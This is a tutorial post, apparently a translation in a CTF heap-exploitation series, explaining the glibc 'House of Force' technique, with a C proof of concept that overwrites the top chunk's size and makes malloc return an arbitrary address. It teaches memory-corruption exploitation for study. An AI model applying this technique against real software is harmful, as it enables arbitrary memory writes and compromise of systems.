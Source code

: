 ```yaml
---
title: Heap Exploitation系列翻译-15 House of Force
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Force

Similar to 'House of Lore', this attack focuses on returning an arbitrary pointer from 'malloc'. Forging chunks attack was discussed for fastbins and the 'House of Lore' attack was discussed for small bins. The 'House of Force' exploits the 'top chunk'. The topmost chunk is also known as the 'wilderness'. It borders the end of the heap (i.e. it is at the maximum address within the heap) and is not present in any bin. It follows the same format of the chunk structure.

This attack assumes an overflow into the top chunk's header. The `size` is modified to a very large value (`-1` in this example). This ensures that all initial requests will be services using the top chunk, instead of relying on `mmap`. On a 64 bit system, `-1` evaluates to `0xFFFFFFFFFFFFFFFF`. A chunk with this size can cover the entire memory space of the program. Let us assume that the attacker wishes 'malloc' to return address `P`. Now, any malloc call with the size of: `&top_chunk` - `P` will be serviced using the top chunk. Note that `P` can be after or before the `top_chunk`. If it is before, the result will be a large positive value (because size is unsigned). It will still be less than `-1`. An integer overflow will occur and malloc will successfully service this request using the top chunk. Now, the top chunk will point to `P` and any future requests will return `P`!

Consider this sample code (download the complete version [here](../assets/files/house_of_force.c)):

```c
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

'malloc' returned an address pointing to `victim`.

Note the following things that we need to take care:

1. While deducing the exact pointer to `top_chunk`, 0 out the three lower bits of the previous chunk to obtain correct size.
2. While calculating requestSize, an additional buffer of around `8` bytes was reduced. This was just to counter the rounding up malloc does while servicing chunks. Incidentally, in this case, malloc returns a chunk with `8` additional bytes than requested. Notice that this is machine dependent.
3. `victim` can be any address (on heap, stack, bss, etc.).
